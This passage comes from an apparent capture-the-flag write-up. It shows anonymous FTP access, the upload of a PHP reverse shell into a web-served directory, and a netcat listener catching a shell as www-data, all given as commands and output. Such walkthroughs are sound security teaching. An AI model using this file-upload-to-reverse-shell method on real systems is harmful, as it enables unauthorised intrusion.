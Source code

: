 The commands are `get <filename>` and `put <filename>` respectively.

Downloading the file:

```bash
ftp> get .test.log
local: .test.log remote: .test.log
229 Entering Extended Passive Mode (|||26745|)
150 Opening BINARY mode data connection for .test.log (5 bytes).
100% |*********************************************************|     5       42.45 KiB/s    00:00 ETA
226 Transfer complete.
```

Looking at the file:

```bash
kairos@opensus:~> cat .test.log
test
```

Right. Not helpful at all. Given that it is an FTP server, we can try to upload files to it.

## Reverse Shell

What we are mainly looking for is to hopefully get a reverse shell.

First, we prepare a reverse shell script. I personally like to use [pentestmonkey's reverse shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) for this. After changing the IP address to match my machine's, I tried to upload it to the FTP server.

```bash
ftp> put php-reverse-shell.php
local: php-reverse-shell.php remote: php-reverse-shell.php
229 Entering Extended Passive Mode (|||37359|)
553 Could not create file.
```

Yikes. Seems like in this directory, we don't have permission to upload files. Let's try to upload it to the `ftp` directory instead.

```bash
ftp> put php-reverse-shell.php
local: php-reverse-shell.php remote: php-reverse-shell.php
229 Entering Extended Passive Mode (|||41137|)
150 Ok to send data.
100% |*********************************************************|  5493       41.57 MiB/s    00:00 ETA
226 Transfer complete.
5493 bytes sent in 00:00 (8.22 KiB/s)
```

Bingo! Going back to `http://<ip>/files/ftp/`, we see that the file has successfully been uploaded.

I set up a netcat listener on my machine to listen for port 1234 that I set in the script. Clicking on the php file...

```bash
┌──(kairos㉿kali)-[~]
└─$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [<host_ip>] from (UNKNOWN) [<ip>] 58206
Linux startup 4.4.0-190-generic #220-Ubuntu SMP Fri Aug 28 23:02:15 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 13:58:30 up  1:03,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
```
